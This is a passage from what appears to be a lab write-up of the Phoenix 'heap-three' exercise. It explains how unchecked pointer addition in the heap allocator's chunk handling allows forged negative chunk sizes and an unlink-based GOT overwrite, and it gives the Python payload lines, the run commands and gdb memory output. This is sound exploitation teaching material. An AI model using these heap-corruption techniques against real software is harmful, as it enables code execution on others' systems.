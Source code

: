 ```c
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr)(((char*)(p)) + (s)))
```

It just adds them together. For anyone who knows how numbers work in C, this function should seem fishy at best. Using a really large size pointer is great for 2 reasons. First of all, it allows us to not have the chunk handled by the fastbins. Second, because the addition is unchecked, we can overflow and use those really big numbers to act as negative numbers. Here's what I mean:

Assume we use the value 0xfffffffc (and we will). When we're adding that to our pointer, which let's assume is 0x4008, 0xfffffffc + 0x4008 = 0x100004004. Since it's working with 32-bit numbers, that leading one gets truncated and we end up with a result of 0x4004, which means our 0xfffffffc is just -4. Now let's craft our sizes.

Firstly, we want our forward chunk to be valid and not the top chunk. It will break if it's invalid, and I'm not sure what the behavior would be if it was the top chunk, but best not to test it out for our exploit (I'll figure it out later and maybe I'll add it to the writeup). Since we can use negative numbers, we can just pretend like chunk a is the next chunk? So use the value 0xffffffb0 to equal -80? Then our `prev_size` can be -4.

```python
payload += b'A'*32 + p32(0xfffffffc) + p32(0xffffffb0)
```

This means when our chunk is freed, it will think the current chunk is free already and try to consolidate it (since `PREV_INUSE` is unset). It'll check next and realize that chunk is in use and ignore it. Next it'll step back to the last chunk using `prev_size`, and consolidate that chunk. Because of the way `free()` calculates that value (`p = chunk_at_offset(p, -((long) prevsize));`), it will use -(`prevsize`), which in our case == `-(-4)` == `4`. So it will add 4 to our current p and unlink that. This means we just need an extra 4 bytes of padding.

Obviously we're going to use the values we defined at the beginning of the file, but we need to do some offsetting of those to make this work as intended. It swaps `p->fd` with `p->bk->fd`, and then `p->bk` with `p->fd->bk`. Since structs in C are just defined by an offset, `->bk` is adding 12 to our pointer address, and `->fd` is adding 8. So if we are going to put our address to write to first, if we want it to write to the correct address, we need to put -12, so it ends up finding the right address. The second address needs to be the pointer to our executable heap write so that it will end up in our GOT location. Let's write that out:
```python
payload += b'A' * 4 + p32(PUTS-12) + p32(RETADDR+16)
```

If we just tack on `print(str(payload)[2:-1])`, it will print it as raw bytes to the terminal, which we'll put into a file: `echo -ne $(python3 solve-heap-three.py) > payload`. Then we can then run with `/opt/phoenix/i486/heap-three $(cat payload)`.

Segmentation fault.... hmmm.... let's check out our free's in gdb.

```
 → 0xf7e6902b                  add    BYTE PTR [ecx], ch
   0xf7e6902d                  add    BYTE PTR [eax], al
   0xf7e6902f                  add    BYTE PTR [eax], al
   0xf7e69031                  add    BYTE PTR [eax], al
   0xf7e69033                  add    BYTE PTR [ecx+0x41], al
   0xf7e69036                  inc    ecx
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── memory:0xf7e69000 ────
0xf7e69000│+0x0000 0x00000028ffffffac
0xf7e69008│+0x0008 0x90909090f7e69028
0xf7e69010│+0x0010 0x0487d56890909090
0xf7e69018│+0x0018 0x000000000804c130
0xf7e69020│+0x0020 0x0000000000000000
0xf7e69028│+0x0028 0x0000002900000000
0xf7e69030│+0x0030 0x4141414100000000
0xf7e69038│+0x0038 0x4141414141414141
0xf7e69040│+0x0040 0x4141414141414141
0xf7e69048│+0x0048 0x4141414141414141
0xf7e69050│+0x0050 0xffffffb0fffffffc
```